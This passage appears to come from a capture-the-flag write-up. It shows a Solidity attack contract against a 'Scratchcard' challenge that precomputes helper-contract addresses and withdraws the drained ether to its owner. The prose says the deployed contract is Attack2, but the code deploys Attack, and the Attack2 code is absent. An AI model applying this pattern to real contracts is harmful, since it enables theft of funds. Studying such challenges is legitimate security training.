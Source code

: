 ~~~solidity
contract Attack{
    address owner;

    constructor() public payable {
        owner = msg.sender;
    }

    function addressFrom(address _origin, uint _nonce) external pure returns (address) {
        return address(keccak256(byte(0xd6), byte(0x94), _origin, byte(_nonce)));
    }

    function attackScratchcard() public payable{
        Attack con = (new Attack).value(msg.value)();
    }

    function withdraw() public {
        if (msg.sender == owner) {
            msg.sender.transfer(address(this).balance); 
        }
    }

    function () public payable {}
}
~~~

We have two attack contracts. When `attackScratchcard` is called on Attack contract we deploy Attack2 that does actual attack from its constructor.

We also have to calculate addresses of Attack2 contracts before they are created so we can add them as authorized (`ctf_challenge_add_authorized_sender` from CtfFramework).
